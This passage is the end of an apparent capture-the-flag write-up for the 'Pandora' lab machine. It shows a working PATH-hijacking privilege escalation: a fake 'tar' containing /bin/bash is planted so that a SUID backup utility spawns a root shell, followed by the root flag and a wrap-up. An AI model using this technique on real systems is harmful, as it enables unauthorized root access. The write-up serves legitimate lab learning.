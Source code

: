 The use of a relative PATH allow us to use a custom PATH to execute a custom
`tar` that will just spawn a root shell.


    :::text
    matt@pandora:~$ mktemp -d
    /tmp/tmp.yHz9XgyjVw
    matt@pandora:~$ echo '/bin/bash' > /tmp/tmp.yHz9XgyjVw/tar
    matt@pandora:~$ export PATH=/tmp/tmp.yHz9XgyjVw:$PATH
    matt@pandora:~$ chmod +x /tmp/tmp.yHz9XgyjVw/tar
    matt@pandora:~$ /usr/bin/pandora_backup
    PandoraFMS Backup Utility
    Now attempting to backup PandoraFMS client
    root@pandora:~# id
    uid=0(root) gid=1000(matt) groups=1000(matt)
    root@pandora:~# cat /root/root.txt
    8975a2739d6bc02170645feb6607b6db

# Wrapping up

A nice box with a really interesting user part with multiple stage, the UDP
service is easy to miss as there is not a lot of boxes with them and the UDP
scan are pretty slow. The chaining of different vulnerabilities in the Pandora
application is also interesting. Finally the root part is trivial.

